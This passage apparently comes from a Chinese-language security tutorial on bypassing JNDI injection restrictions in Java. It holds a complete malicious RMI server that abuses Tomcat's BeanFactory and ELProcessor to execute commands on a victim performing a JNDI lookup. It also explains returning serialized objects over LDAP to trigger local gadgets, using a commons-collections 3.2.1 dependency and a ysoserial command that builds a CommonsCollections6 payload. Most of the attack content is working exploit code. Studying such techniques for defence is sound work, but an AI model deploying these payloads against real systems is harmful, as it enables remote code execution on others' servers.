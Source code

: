 ```java
package jndi.bypass;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(3377);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

‍

‍

利用LDAP返回序列化数据，触发本地Gadget
------------------------

其实这里就是在分析LDAP+JNDI的时候他有个类似swich的东西，当时传入的是引用类，所以走了引用类的逻辑，但是如果我们传入的是序列化的对象，并且后续会被反序列化，那么就相当于存在了一个天然的反序列化入口了，就可以触发本地的Gadget了

‍

本地调试下 先添加CC的依赖

```xml
       <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```

‍

```bash
java -jar y4-yso.jar CommonsCollections6 "calc" > 1.ser | base64 
```

然后传进ldapserver
